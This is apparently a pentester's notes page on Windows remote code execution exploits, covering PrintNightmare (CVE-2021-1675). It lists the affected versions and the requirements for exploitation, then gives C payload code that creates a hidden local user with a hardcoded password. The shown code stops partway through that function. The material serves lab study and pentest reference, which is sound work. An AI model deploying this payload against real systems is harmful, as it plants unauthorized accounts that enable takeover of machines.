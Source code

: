```yaml
---
title: Remote Code Execution Exploits
---
```


Exploits to take over outdated [[notes/windows/index]] systems.

# PrintNightmare / [CVE-2021-1675](https://www.opencve.io/cve/CVE-2021-1675)

Vulnerability in [[notes/network/smb]] affects all versions from XP up to Windows 10 1607 and Server 2016.

Exploitation requires SMB access as unprivileged user and a running print spooler.

`./adduser.c` ([source](http://web.archive.org/web/20221209130709/https://mayfly277.github.io/posts/GOADv2-pwning-part5/)):

~~~ c
#define UNICODE
#define _UNICODE

#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <tchar.h>

DWORD CreateAdminUserInternal(void) {
    NET_API_STATUS rc;
    BOOL b;
    DWORD dw;

    USER_INFO_1 ud;
    LOCALGROUP_MEMBERS_INFO_0 gd;
    SID_NAME_USE snu;

    DWORD cbSid = 256;  // 256 bytes should be enough for everybody
    BYTE Sid[256];

    DWORD cbDomain = 256 / sizeof(TCHAR);
    TCHAR Domain[256];

    // Create user
    memset(&ud, 0, sizeof(ud));

    ud.usri1_name        = _T("pnightmare");               // username
    ud.usri1_password    = _T("Test123456789!");           // password
    ud.usri1_priv        = USER_PRIV_USER;                 // cannot set USER_PRIV_ADMIN on creation
    ud.usri1_flags       = UF_SCRIPT | UF_NORMAL_ACCOUNT;  // must be set
    ud.usri1_script_path = NULL;

    rc = NetUserAdd(
        NULL,         // local server
        1,            // information level
        (LPBYTE)&ud,
        NULL          // error value
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }
~~~